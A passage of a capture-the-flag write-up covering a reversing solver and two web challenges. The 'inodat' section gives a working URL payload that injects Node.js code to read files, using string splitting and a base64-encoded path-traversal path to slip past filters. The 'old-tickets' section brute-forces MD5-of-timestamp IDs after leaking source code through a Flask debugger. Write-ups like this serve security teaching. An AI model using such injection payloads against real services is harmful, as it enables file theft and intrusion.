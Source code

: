 ```cpp

  invert_func3(iv4, 1024);
  printArray(byte_2020C0, 1024);

  printf("FUNC 2\n");
  memcpy(byte_202040, byte_2020C0, 104);
  printArray(byte_202040, 1024);
  for(size_t i = 0; i < 25; ++i) func2(byte_202040);
  printArray(byte_202040, 1024);
  return 0;
}
```

## inodat - Web

### Flag

`CTF{11a0aafa059bda95fdb80332309eb6368ddf4e572dadbe0c40dfe0be69bf515d}`

### Description

The challenge involves finding nested APIs to exploit and retrieve the flag.

### Solution

Using BurpSuite and gobuster, we can rapidly uncover the /api/v1/<> paths. From then on, finding the vulnerability is trivial but we need to escape the encodings.

### Exploit

```http
http://34.107.45.139:31092/api/v1/math?sum=require(%22fs%22)[%22readF%22%2B%22ile%22%2B%22Sync%22](Buffer.from(%22Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4v%22%2b%22Li4vaG9tZS9jdGYvc2VjcmV0X2ZsYWdfZm9sZGVyX2Fkc2FzZG9oaS9mbGFnLnR4dA==%22,%20%22base%22%2B%2264%22))
```

## old-tickets - Web

### Flag

`ctf{4086d9012b250dc1d821340f23b4af9b29d780552434175cb713b6d7502885c9}`

### Description

A web challenge which has us find an HTML comment to retrieve old tickets, without knowing the API.

### Solution

Using the displayed debugger for Flask, we can uncover bits of the source code by forcing errors in the 3 HTTP methods handled by the index route: PUT, POST and GET.
With this information, we can now find the flag using the POST route (makes complete sense right? RESTful...).
Find the timestamp for the comment after learning that it's just MD5(timestamp), go to intruder, Payload Options, Start: timestamp, Step: 1, Payload Processing: MD5, Success.
